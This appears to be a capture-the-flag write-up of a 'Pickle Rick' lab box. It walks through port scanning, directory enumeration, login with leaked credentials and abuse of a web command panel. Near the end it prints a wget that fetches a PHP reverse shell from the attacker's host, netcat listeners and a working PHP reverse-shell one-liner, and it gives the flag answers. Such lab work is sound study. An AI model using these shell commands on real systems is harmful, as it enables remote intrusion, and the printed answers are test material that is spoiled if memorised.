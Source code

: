 #ctf #dirbuster #Linux 

---

Performing an `nmap` scan to identify open ports and services:

```shell
└─$ nmap -sC -sV 10.10.244.104 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-16 18:40 EST
Nmap scan report for 10.10.244.104
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8f:eb:a5:6c:d0:eb:d6:74:03:c4:ac:29:68:be:5f:60 (RSA)
|   256 0e:f3:7f:77:38:5a:69:cf:c6:4c:fd:12:d1:cb:58:96 (ECDSA)
|_  256 c0:d5:b1:57:6f:f3:07:0d:5f:af:cc:f3:a7:f3:7e:a6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.71 seconds
```


Opening the IP address and inspecting the page code:

![](./screenshots/rick-1.png)

> We see the username : `R1ckRul3s` as a comment.
> We see that there is a directory called `/assets`.

Opening `/assets` to view its contents:

![](./screenshots/rick-2.png)

Now I'll enumerate all directories using `gobuster`:

``` shell
└─$ gobuster dir -u http://10.10.244.104 -w /usr/share/wordlists/dirb/common.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.244.104
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 292]
/.hta.php             (Status: 403) [Size: 296]
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/assets               (Status: 301) [Size: 315] [--> http://10.10.244.104/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 301]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================

```

Opening `robots.txt` we see this string: `Wubbalubbadubdub`.

Heading to the `login.php` page, we use the username given above as a comment `R1ckRul3s` and the password found in the `robots.txt` `Wubbalubbadubdub`
.

![](./screenshots/rick-3.png)


The credentials work, and we are greeted with this new directory `/portal.php`.

![](./screenshots/rick-4.png)

Cheking the source code for this page: 

```HTML
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
</head>
<body>
  <nav class="navbar navbar-inverse">
    <div class="container">
      <div class="navbar-header">
        <a class="navbar-brand" href="#">Rick Portal</a>
      </div>
      <ul class="nav navbar-nav">
        <li class="active"><a href="#">Commands</a></li>
        <li><a href="/denied.php">Potions</a></li>
        <li><a href="/denied.php">Creatures</a></li>
        <li><a href="/denied.php">Potions</a></li>
        <li><a href="/denied.php">Beth Clone Notes</a></li>
      </ul>
    </div>
  </nav>

  <div class="container">
    <form name="input" action="" method="post">
      <h3>Command Panel</h3></br>
      <input type="text" class="form-control" name="command" placeholder="Commands"/></br>
      <input type="submit" value="Execute" class="btn btn-success" name="sub"/>
    </form>
        <!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
  </div>
</body>
</html>
```

1. We see that all the other tabs redirect us to `/denied.php`: 
2. We see in the form that we can execute commands.
3. We see a comment near the end that has some encoded data.

1. 

![](./screenshots/rick-5.png)

2. 
> We see that we can execute commands in the commands tab. The commands we enter as text are uploaded using HTTP `POST` method. The input we enter is also executed using `Execute`.

![](./screenshots/rick-.png)

Typing `ls` command to view all files in the directory, we see all the files we found before except for `clue.txt` and `Sup3rS3cretPickl3Ingred.txt`.

> Using `cat Sup3rS3cretPickl3Ingred.txt` to view the first flag doesnt't work. The same goes for `cat clue.txt`.

![](./screenshots/rick-6.png)

Trying multiple different ways to open files:
* `more`
* `nano`
* `tail`
* `head`
* `less` WORKS!

![](./screenshots/rick-7.png)

###### What is the first ingredient that Rick needs? : `mr. meesek hair`.

> Opening the `clue.txt` file:

![](./screenshots/rick-8.png)

3. The comment at the end of the source code has some encoded data:

`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

This looks like base64 encoding. Decoding it from base64 4 times gives us this:
`WTIxR2FWbHRiREJKUjJoMllrZFZQUT09`. Nothing useful.


Now, we try and look for the second ingredient by following the clue in `clue.txt`. To challenge myself, I tried to upload a shell, but that failed.

---

##### Failed trial:

1. Got the `php-reverse-shell.php` file from `/usr/share/webshells` and changed the IP address to my local machine IP.
2. Opened a python server in the directory with the shell file i changed above in step 1: `python -m http.server 80`.
3. Went to the command panel on `/portal.php` and fetched the file using `wget`: `wget http://10.2.73.192:80/php-reverse-shell.php`. The file indeed got fetched:

![](./screenshots/rick-9.png)

4. After that, I headed to the `/assets` directory where I assumed it would be uploaded, but I didnt find it. If it had been found, I would open it and open a netcat listener on my local machine:
```
nc -nlvp 1234
```

---

So instead of uploading a shell to the server, why don't I connect to my machine from the server itself using a simple PHP one-liner shell.

First, we setup a netcat listener on port 4242 on the local machine and await for connections:

```
nc -nlvp 4242
```

Then paste this command in the `/portal.php` command input:

```php
php -r '$sock=fsockopen("10.2.73.192",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
> This IP address is that of my local machine that I'm attacking from.

We should get a connection once we execute the command on our local machine:

![](./screenshots/rick-10.png)

Now we can cruise through the files and find our flags.

![](./screenshots/rick-11.png)

###### What is the second ingredient in Rick’s potion?: `1 jerry tear`.

Then trying to head to the root directory of the system to get the final flag:

![](./screenshots/rick-12.png)

We get the final flag.

###### What is the last and final ingredient?: `fleeb juice`.

---
